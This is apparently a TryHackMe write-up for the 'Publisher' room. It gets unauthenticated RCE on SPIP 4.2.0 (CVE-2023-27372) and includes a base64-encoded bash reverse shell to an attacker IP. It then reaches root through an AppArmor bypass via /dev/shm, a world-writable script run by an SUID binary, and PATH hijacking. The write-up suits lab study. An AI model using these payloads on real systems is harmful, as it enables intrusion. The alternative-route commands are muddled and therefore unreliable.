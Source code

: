 ```yaml
---
title: Publisher
description: 'Exploiting SPIP 4.2.0 (CVE-2023-27372) and privilege escalation through Docker'
pubDate: 2024-08-02
category: 'tryhackme'
image: 'https://tryhackme-images.s3.amazonaws.com/room-icons/618b3fa52f0acc0061fb0172-1718377893997'
---
```


On the SPIP login page (http://10.10.33.114/spip/spip.php?page=login&url=spip.php&lang=fr) in the source we find the version number

```html
...[snip]...
<meta name="generator" content="SPIP 4.2.0" />
...[snip]...
```

Searching exploit-db for this version we find an unauth RCE:
https://www.exploit-db.com/exploits/51536

For some reason this exploit didn't work when I copy/pasted it from there but searching for the CVE gives us this Github page: https://github.com/nuts7/CVE-2023-27372

## USER

Getting a shell on the box:
```bash
git clone https://github.com/nuts7/CVE-2023-27372
cd CVE-2023-27372/
./CVE-2023-27372.py -u http://10.10.33.114/spip -c 'echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC44LjExOS4xMzcvNDQ0NCAwPiYx|base64 -d|bash' -v
```
Now we can read the user flag and get the `id_rsa` of the user `think`.


## ROOT

First we login through SSH to get a proper shell:

```bash
ssh -i think_id_rsa think@10.10.33.114
```

It's kind of strange we can't create files in our own home directory or in the `/tmp` directory. It looks like the permissions are strangely setup.

Searching for SUID capabilities we find an interesting file:
```bash
find / -perm -u=s -type f 2>/dev/null
...[snip]...
/usr/sbin/run_container
```

If we run it we get an error in an other file:
```bash
think@publisher:/dev/shm$ /usr/sbin/run_container
List of Docker containers:
ID: 41c976e507f8 | Name: jovial_hertz | Status: Up About an hour

Enter the ID of the container or leave blank to create a new one: 41c976e507f8
/opt/run_container.sh: line 16: validate_container_id: command not found
...[snip]...
```

If we could modify the `/opt/run_container.sh` we could get a root shell, but we don't have the permissions.

The hint here tells us to look at `App Armor`.

```bash
think@publisher:/etc/apparmor.d$ ls -al
total 84
drwxr-xr-x   8 root root  4096 Feb 12 20:19 .
drwxr-xr-x 130 root root 12288 Feb 12 21:20 ..
...[snip]...
-rw-r--r--   1 root root   532 Feb 12 20:18 usr.sbin.ash
...[snip]...
```

It looks like there is no profile for `bash`, only for `ash`.
Checking our ENV we see that we are in fact running `ash`

```bash
think@publisher:/etc/apparmor.d$ env
SHELL=/usr/sbin/ash
PWD=/etc/apparmor.d
LOGNAME=think
...[snip]...
```

Checking the profile for `ash` shows us that we don't have much permissions to even write files:
```bash
cat usr.sbin.ash
#include <tunables/global>

/usr/sbin/ash flags=(complain) {
  #include <abstractions/base>
  #include <abstractions/bash>
  #include <abstractions/consoles>
  #include <abstractions/nameservice>
  #include <abstractions/user-tmp>

  # Remove specific file path rules
  # Deny access to certain directories
  deny /opt/ r,
  deny /opt/** w,
  deny /tmp/** w,
  deny /dev/shm w,
  deny /var/tmp w,
  deny /home/** w,
  /usr/bin/** mrix,
  /usr/sbin/** mrix,

  # Simplified rule for accessing /home directory
  owner /home/** rix,
}
```

We can however write files in `/dev/shm` because its missing the wildcards (`**`) at the end.

If we can break out of the `ash` shell and get a regular `bash` shell we can modify a lot more files

```bash
cd /dev/shm
cp /bin/bash .
echo $0
-ash
./bash -p
echo $0
./bash
```

Since we have a `bash` shell now we can list files in `/opt`.
```bash
ls -al /opt/
total 20
drwxr-xr-x  3 root root 4096 Jan 10  2024 .
drwxr-xr-x 18 root root 4096 Nov 14  2023 ..
drwx--x--x  4 root root 4096 Nov 14  2023 containerd
-rw-r--r--  1 root root  861 Dec  7  2023 dockerfile
-rwxrwxrwx  1 root root 1715 Jan 10  2024 run_container.sh
```

We are even able to modify the `/opt/run_container.sh` file directly to add a `bash -p`.

```bash
#!/bin/bash
bash -p
...[snip]...
```

Once we modified the `/opt/run_container.sh` file we can execute the SUID binary to get a root shell:
```bash
/usr/sbin/run_container
bash-5.0# id
uid=1000(think) gid=1000(think) euid=0(root) egid=0(root) groups=0(root),1000(think)
```

### ALTERNATIVE ROUTE

Looking at the `/opt/run_container.sh` file we see that `docker` is not getting called with an absolute path.

```bash
cd /dev/shm
echo docker > '/bin/bash -p'
chmod +x docker
export "PATH=/dev/shm:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin"

$PATH
-ash: /dev/shm:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin: No such file or directory
```

Now we run the `/opt/run_container.sh` script to get our poisoned docker file executed.

```bash
hink@publisher:/dev/shm$ /opt/run_container.sh
think@publisher:/dev/shm$ $PATH
bash: /dev/shm:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin: No such file or directory
```

We see we get a `bash` path now.

```bash
cp docker /opt/run_container.sh
/usr/sbin/run_container
bash-5.0# id
uid=1000(think) gid=1000(think) euid=0(root) egid=0(root) groups=0(root),1000(think)
```
